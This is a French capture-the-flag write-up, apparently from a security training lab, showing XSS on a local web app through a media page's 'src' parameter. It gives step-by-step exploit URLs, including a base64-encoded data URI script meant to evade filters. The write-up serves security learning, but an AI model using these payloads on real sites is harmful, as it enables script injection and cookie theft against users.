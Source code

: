 # XSS via Data URI - Media Source Injection

## Description
Cette vulnérabilité exploite une injection XSS via le paramètre `src` de la page média, permettant d'exécuter du JavaScript arbitraire en utilisant des data URIs encodées en base64.

## Exploitation

### Étape 1: Découverte de la faille
En cliquant sur l'image du logo NSA, nous sommes redirigés vers une page spéciale :

```
http://localhost:8080/?page=media&src=nsa
```

### Étape 2: Analyse du comportement
Le paramètre `src` semble être utilisé directement pour charger et afficher le contenu du fichier spécifié, sans validation appropriée côté serveur.

### Étape 3: Test d'injection XSS basique
Première tentative d'injection JavaScript directe :

```
http://localhost:8080/index.php?page=media&src=data:text/html,<script>alert("hack")</script>
```

**Problèmes de cette approche :**
- ❌ **Trop flagrant** : Le code JavaScript est visible dans l'URL
- ❌ **Facilement détectable** : Par les filtres de sécurité

### Étape 4: Encodage en Base64 pour la discrétion
Pour rendre l'attaque plus discrète, nous encodons le payload JavaScript en base64 :

**Payload original :**
```javascript
<script>alert("scrouch")</script>
```

**Encodage en base64 :**
```bash
echo '<script>alert("scrouch")</script>' | base64
# Résultat: PHNjcmlwdD5hbGVydCgic2Nyb3VjaCIpPC9zY3JpcHQ+
```

**URL finale d'exploitation :**
```
http://localhost:8080/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgic2Nyb3VjaCIpPC9zY3JpcHQ+
```

### Étape 5: Obtention du flag
Avec cette URL encodée, l'application exécute le JavaScript et nous donne le flag.

## Processus technique

### Comprendre les Data URIs
```
data:[<mediatype>][;base64],<data>

Exemples:
data:text/html,<h1>Hello</h1>
data:text/html;base64,PGgxPkhlbGxvPC9oMT4=
data:image/png;base64,iVBORw0KGgoAAAANS...
```

## Impact

Cette vulnérabilité permet :
- **Cross-Site Scripting (XSS)** : Exécution de JavaScript arbitraire
- **Vol de cookies** : Récupération des informations d'authentification
- **Redirection malveillante** : Détournement vers des sites de phishing
